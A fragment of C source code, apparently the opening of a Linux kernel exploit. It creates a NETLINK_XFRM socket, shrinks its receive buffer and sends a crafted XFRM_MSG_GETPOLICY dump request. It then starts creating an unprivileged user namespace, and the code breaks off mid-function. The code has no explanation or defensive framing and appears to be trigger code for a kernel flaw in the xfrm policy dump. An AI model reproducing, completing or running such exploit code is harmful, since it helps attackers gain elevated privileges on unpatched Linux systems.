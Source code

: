 ```


int fd;
struct sockaddr_nl addr;

struct msg_policy {
    struct nlmsghdr msg;
    char buf[BUFSIZE];
};

void create_nl_socket(void)
{
    fd = socket(PF_NETLINK,SOCK_RAW,NETLINK_XFRM);
    memset(&addr,0,sizeof(struct sockaddr_nl));
    addr.nl_family = AF_NETLINK;
    addr.nl_pid = 0; /* packet goes into the kernel */
    addr.nl_groups = XFRMNLGRP_NONE; /* no need for multicast group */

}

void do_setsockopt(void)
{
    int var =0x100;

    setsockopt(fd,1,SO_RCVBUF,&var,sizeof(int));
}

struct msg_policy *init_policy_dump(int size)
{
    struct msg_policy *r;

    r = malloc(sizeof(struct msg_policy));
    if(r == NULL) {
        perror("malloc");
        exit(-1);
    }
    memset(r,0,sizeof(struct msg_policy));

    r->msg.nlmsg_len = 0x10;
    r->msg.nlmsg_type = XFRM_MSG_GETPOLICY;
    r->msg.nlmsg_flags = NLM_F_MATCH | NLM_F_MULTI |  NLM_F_REQUEST;
    r->msg.nlmsg_seq = 0x1;
    r->msg.nlmsg_pid = 2;
    return r;

}
int send_msg(int fd,struct nlmsghdr *msg)
{
    int err;
    err = sendto(fd,(void *)msg,msg->nlmsg_len,0,(struct sockaddr*)&addr,sizeof(struct sockaddr_nl));
    if (err < 0) {
        perror("sendto");
        return -1;
    }
    return 0;

}

void create_ns(void)
{
	if(unshare(CLONE_NEWUSER) != 0) {
		perror("unshare(CLONE_NEWUSER)");
```